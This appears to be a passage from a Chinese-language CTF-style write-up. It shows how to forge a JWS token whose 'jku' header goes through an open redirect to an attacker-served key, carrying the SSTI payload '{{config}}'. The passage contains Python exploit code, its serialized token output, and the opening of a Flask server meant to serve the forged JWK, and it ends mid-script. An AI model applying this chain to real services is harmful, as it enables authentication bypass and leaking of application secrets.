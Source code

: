 

##### 生成JWS

我们需要伪造jku，并且在JWS解密后的内容中附加上SSTI payload，比如`{{ config }}`

```python
jku = 'http://localhost:5001/vuln/redirect?endpoint=http://localhost:5002/hack' #localhost:5002 its own server, 5001 server with vuln open redirect
payload = '{{config}}'
key = jws.JWK(**json.loads(app.config['all_key']))
jwstoken = jws.JWS(payload.encode('utf-8'))
jwstoken.add_signature(key=key,alg='RS256',protected=None,header=json_encode({"kid": key.thumbprint(), 'jku':jku, "alg":"RS256"}))
sig = jwstoken.serialize()
```

jwk文档：[JSON Web Key (JWK)](https://jwcrypto.readthedocs.io/en/latest/jwk.html#json-web-key-jwk)

```python
>>> ka
<jwcrypto.jwk.JWK object at 0x7f7cd6062400>
>>> jwstoken
<jwcrypto.jws.JWS object at 0x7f7cd64ebdf0>
>>> jwstoken.add_signature(key=key,alg='RS256',protected=None,header=json_encode({"kid": ka.thumbprint(), 'jku':jku, "alg":"RS256"}))
>>> jwstoken.serialize()
'{"header":{"alg":"RS256","jku":"http://localhost:5001/vuln/redirect?endpoint=http://localhost:5002/hack","kid":"BYa3XpycMhDud1d-fYTijehS75jH90eTPxVYdUx8DqA"},"payload":"e3tjb25maWd9fQ","signature":"kwNzA48stR8tqbceOxHvHUyNCB9dzx02mPLRLpd9cjD5vzFio5rBMEIraLEp8WwLaH1T_Nofz7e2ToPCdWFS5nGv6jcGCJ9DrFMwL9vq4M6pfTLE7hKlGDtE7iFAIvZqL4MEAx7IdSC07zd4yTRNBy48q64yXEMqA8HigvETS14_DYfiDDkSkHNSxLTuItI8qOxhfLIj1UVTZMci1mi5PQ00R66q5RPFsy-6v6ZIrRjPkeODc4DIlzpv525NkREMcCrAgpb7XvrV1eVWJMWDwkZQoXf6XgJapvhRveegk9GYkLETbz3Lqwh13KNNZw9doVSqL1oyRhjxgDHyT1cQlg"}'
```



##### 完整脚本：

使用flask构建web服务，访问/hack即返回伪造的JWK。

```python
from flask import Flask, request, redirect, jsonify, send_from_directory
from jwcrypto import jwk, jws
from jwcrypto.common import json_encode
import os
import json
import requests, re

app = Flask(__name__)
app.config['pub_key'] = '{"e":"AQAB","kty":"RSA","n":"oBbyWuGxj4wqlVjqcpNh3ZKYTjVXWINNdn8zaJgJdPa0Wt286cE4wExWAV03Kuma7bh8yK5SgY2bte8mdjpcte5T1iOtqWTXDP5XbXQvzLPas1VVvzcMwdsMs4-mkuV6HCYaj7Sbent7Bvx_4aY8qxrIBSuqf4NBP38iE_Bkuzo_OeGtsz0f5KECUPDV-Tum1KDuiwCDt6Jmef_xAWUmAqJv9nK0GLnNceIDXmw775Gi26KxDl7g2ak22pNCEFBKbZqQak4cTeZJfNR-oUZqPXFGO9i2yZJ_G7iN-1JxSPTyqyKnG5Z16d7l1Q_TFP1btPMFu9qS_bdbnkcMxURoBQ"'
```